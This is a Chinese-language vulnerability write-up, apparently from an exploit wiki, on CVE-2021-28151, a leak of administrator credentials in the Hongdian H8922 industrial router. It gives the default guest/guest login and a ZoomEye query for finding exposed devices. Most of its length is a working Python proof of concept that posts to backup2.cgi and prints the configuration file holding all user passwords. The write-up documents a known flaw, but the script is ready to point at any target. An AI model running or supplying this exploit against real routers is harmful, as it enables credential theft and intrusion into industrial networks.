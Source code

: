 # 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151

## 漏洞描述

宏电 H8922 后台存在管理员信息泄露漏洞，攻击者使用任意账号登录后访问特殊的Url即可获取所有用户的账号和密码

## 漏洞影响

```
宏电 H8922
```

## ZoomEye

```
app:"Hongdian H8922 Industrial Router"
```

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

漏洞存在于 backup2.cgi 文件中

![](images/202202140921362.png)

分析后可得知实际运行后将会读取 **/tmp/hdconfig/cli.conf** 配置文件

![](images/202202140921479.png)

其中配置文件中是含有所有用户密码以及敏感配置信息的

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/backup2.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/backup2.cgi.... \033[0m".format(target_url))
        if 'service webadmin' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取配置文件 \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](images/202202140921653.png)